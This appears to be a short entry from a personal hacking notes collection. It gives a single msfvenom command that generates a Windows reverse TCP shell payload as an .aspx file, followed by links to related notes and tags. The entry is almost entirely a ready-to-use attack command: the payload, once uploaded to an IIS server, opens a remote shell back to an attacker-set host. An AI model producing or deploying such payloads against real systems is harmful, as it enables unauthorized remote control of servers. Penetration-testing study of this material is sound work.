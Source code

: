 # MSFVENOM Active Sever Pages Extended (.aspx)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f aspx -o rev_shell.aspx
```

# References
- [20221003150777](/zet/20221003150777/README.md) MSFVENOM
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:
    #assorted #command #hacking #msfvenom
